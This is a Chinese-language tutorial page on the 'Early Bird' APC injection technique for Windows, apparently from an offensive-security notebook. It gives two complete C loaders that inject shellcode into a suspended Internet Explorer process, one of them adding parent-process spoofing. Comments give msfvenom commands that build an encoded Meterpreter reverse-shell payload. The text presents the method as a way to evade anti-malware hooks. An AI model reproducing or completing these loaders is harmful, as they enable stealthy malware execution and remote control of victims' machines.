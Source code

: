 # Early Bird

## Early Bird简介

Early Bird是一种简单而强大的技术，Early Bird本质上是一种APC注入与线程劫持的变体，由于线程初始化时会调用ntdll未导出函数NtTestAlert，该函数会清空并处理APC队列，所以注入的代码通常在进程的主线程的入口点之前运行并接管进程控制权，从而避免了反恶意软件产品的钩子的检测，同时获得一个合法进程的环境信息。

## Early Bird流程

1. 创建一个挂起的进程\(通常是windows的合法进程\)
2. 在挂起的进程内申请一块可读可写可执行的内存空间
3. 往申请的空间内写入shellcode
4. 将APC插入到该进程的主线程
5. 恢复挂起进程的线程

![](../.gitbook/assets/image%20%2812%29.png)

## 代码实现

```text
#include <stdio.h>
#include <windows.h>
//msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor_dynamic -i 14 LHOST=192.168.0.106 EXITFUNC=thread -f
unsigned char shellcode[] = "";
int main() {
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(STARTUPINFO);

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, (LPSTARTUPINFOA)&si, &pi);
    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
    QueueUserAPC((PAPCFUNC)lpBaseAddress, pi.hThread, NULL);
    ResumeThread(pi.hThread);
    CloseHandle(pi.hThread);

    return 0;
}
```

## 配合FakePPID和FakeCurrentDirectory使用

```text
#include <stdio.h>
#include <windows.h>
#include <TlHelp32.h>


DWORD FindExplorerPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}

int main() {

    //msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor_dynamic -i 14 LHOST=192.168.0.106 EXITFUNC=thread -f
    unsigned char shellcode[] = ("");


    STARTUPINFOEXA siex;
    PROCESS_INFORMATION piex;
    SIZE_T sizeT;
    siex.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    SetCurrentDirectoryA("C:\\Program Files\\internet explorer\\");

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, FindExplorerPID());

    InitializeProcThreadAttributeList(NULL, 1, 0, &sizeT);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, sizeT);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &sizeT);
    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hProcess, sizeof(HANDLE), NULL, NULL);
    
    
    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&siex, &piex);
    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(piex.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(piex.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
    QueueUserAPC((PAPCFUNC)lpBaseAddress, piex.hThread, NULL);
    ResumeThread(piex.hThread);
    CloseHandle(piex.hThread);

    return 0;
}
```

![](../.gitbook/assets/image%20%2836%29.png)

![](../.gitbook/assets/image%20%288%29.png)

## LINKS

{% embed url="https://www.securitynewspaper.com/2018/04/17/new-early-bird-code-injection-technique/" %}

{% embed url="https://blog.csdn.net/weixin\_42052102/article/details/83348780" %}





